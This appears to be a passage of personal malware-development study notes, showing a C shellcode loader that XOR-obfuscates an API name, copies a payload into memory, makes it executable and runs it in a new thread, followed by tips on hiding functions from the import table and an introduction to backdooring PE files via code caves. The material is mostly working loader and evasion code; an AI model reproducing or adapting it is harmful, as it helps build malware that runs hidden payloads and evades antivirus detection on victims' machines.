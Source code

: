 ```PYTHON
	XOR((char*)sVirtualProtect, strlen(sVirtualProtect), key, sizeof(key));

	// Allocate buffer for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	pVirtualProtect = GetProcAddress(GetModuleHandle("kernel32.dll"), sVirtualProtect);

	// Copy payload to the buffer
	RtlMoveMemory(exec_mem, calc_payload, calc_len);
	
	// Make the buffer executable
	// Find the declaration of Virtual Protect in msdn.
	rv = pVirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// If all good, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

## Note on IAT hiding with new compilers
The given approach does not work on Visual Studio due to compiling problems. 
When using the previous code I couldn't compile it in Visual Studio due to type mismatches.

Here are two approaches that work in Visual Studio to dinamically resolve the function, so it does not appear in the IAT:
### Approach 1
Declaring the pointer to the function:
`typedef LPVOID (WINAPI *pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD flProtect);`
Giving the pointer the value to the function:
`pVirtualAlloc pointer = (pVirtualAlloc)GetProcAddress(GetModuleHandle(L"kernel32.dll"), "VirtualAlloc");`
Using the pointer:
`exec_mem = pointer(0, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`

### Approach 2
Oneliner that is basically approach 1 but trusting in compiler. Use at your own risk (It works for me):
`auto const pVirtualAlloc = reinterpret_cast<LPVOID(WINAPI*)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD flProtect)>(`
		`GetProcAddress(GetModuleHandle(L"kernel32.dll"), "VirtualAlloc")`
		`);`
# Backdooring PE files
You can gain initial access, privEsc, or move laterally with a backdoored PE file. Depends on what you use the backdoored file for.
3 ways of backdooring PE files:
- Code cave -> **spare space in the PE File, usually in the .text segment, not occupied by other code.** Downside: little space for malware. Around few hundred bytes (mid-size shellcode).